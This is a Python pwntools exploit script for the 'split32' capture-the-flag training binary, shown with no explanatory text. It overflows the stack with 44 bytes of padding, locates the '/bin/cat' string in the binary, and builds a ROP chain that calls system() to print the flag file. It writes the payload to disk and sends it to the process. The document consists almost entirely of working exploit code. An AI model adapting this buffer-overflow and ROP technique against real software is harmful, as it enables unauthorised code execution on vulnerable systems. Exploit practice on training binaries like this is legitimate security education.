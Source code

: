 ```python
#!/usr/bin/env python3

from pwn import *

# Set up pwntools for the correct architecture
context.update(arch='i386')
exe = './split32'

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

#Delete core files once finished
context.delete_corefiles = True

# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
p = process()

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

# How many bytes to overwrite the EIP?
padding = 44

# Locate functions/strings we need for our payload
binCat_addr = next(elf.search(b'/bin/cat'))

# locate the target address for ("/bin/cat")
info("%#x /bin/cat", binCat_addr)

# Get ROP gadgets
rop = ROP(elf)

# Create ROP chain calling system() and replace with "/bin/cat flag.txt"
rop.system(binCat_addr)

# Inject ROP chain at the correct offset
payload = fit({padding: rop.chain()})

# Save payload to file
f = open("payload", "wb")
f.write(payload)

# Send payload
p.sendlineafter(">", payload)
p.recvuntil('Thank you!\n')

#Obtain flag
```